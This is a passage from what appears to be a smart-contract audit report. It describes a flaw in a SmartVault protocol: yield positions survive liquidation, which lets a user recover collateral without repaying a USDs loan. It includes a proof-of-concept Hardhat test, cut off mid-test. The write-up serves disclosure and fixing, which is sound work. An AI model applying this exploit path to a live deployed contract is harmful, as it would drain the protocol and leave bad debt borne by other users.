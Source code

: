 ```solidity
function canRemoveCollateral(ITokenManager.Token memory _token, uint256 _amount) private view returns (bool) {
    if (minted == 0) return true;
    /* snip: collateral calculations */
}
```

Consequently, the user can withdraw the collateral without repaying the original `USDs` loan. Given the `liquidated` state variable would now be set to `true`, any attacker would need to create a new Smart Vault before the collateral could be used again.

**Impact:** An attacker could repeatedly borrow against collateral deposited in a yield position after being liquidated, resulting in bad debt for the protocol and likely compromising the stability of `USDs` if executed on a large scale.

**Proof of Concept:** The following test can be added to `SmartVault.js`:
```javascript
it('cant liquidate yield positions', async () => {
  const ethCollateral = ethers.utils.parseEther('0.1')
  await user.sendTransaction({ to: Vault.address, value: ethCollateral });

  let { collateral, totalCollateralValue } = await Vault.status();
  let preYieldCollateral = totalCollateralValue;
  expect(getCollateralOf('ETH', collateral).amount).to.equal(ethCollateral);

  depositYield = Vault.connect(user).depositYield(ETH, HUNDRED_PC.div(10));
  await expect(depositYield).not.to.be.reverted;
  await expect(depositYield).to.emit(YieldManager, 'Deposit').withArgs(Vault.address, MockWeth.address, ethCollateral, HUNDRED_PC.div(10));

  ({ collateral, totalCollateralValue } = await Vault.status());
  expect(getCollateralOf('ETH', collateral).amount).to.equal(0);
  expect(totalCollateralValue).to.equal(preYieldCollateral);

  const mintedValue = ethers.utils.parseEther('100');
  await Vault.connect(user).mint(user.address, mintedValue);

  await expect(VaultManager.connect(protocol).liquidateVault(1)).to.be.revertedWith('vault-not-undercollateralised')

  // drop price, now vault is liquidatable
  await CL_WBTC_USD.setPrice(1000);

  await expect(VaultManager.connect(protocol).liquidateVault(1)).not.to.be.reverted;
  ({ minted, maxMintable, totalCollateralValue, collateral, liquidated } = await Vault.status());

  // hypervisor tokens (yield position) not liquidated
  await expect(MockWETHWBTCHypervisor.balanceOf(Vault.address)).to.not.equal(0);

  // since minted is zero, the vault owner still has access to all collateral
  expect(minted).to.equal(0);
  expect(maxMintable).to.not.equal(0);
  expect(totalCollateralValue).to.not.equal(0);
  collateral.forEach(asset => expect(asset.amount).to.equal(0));
  expect(liquidated).to.equal(true);

  // price returns
  await CL_WBTC_USD.setPrice(DEFAULT_ETH_USD_PRICE.mul(20));

  // user exits yield position
  await Vault.connect(user).withdrawYield(MockWETHWBTCHypervisor.address, ETH);
  await Vault.connect(user).withdrawYield(MockUSDsHypervisor.address, ETH);

  // and withdraws assets
```
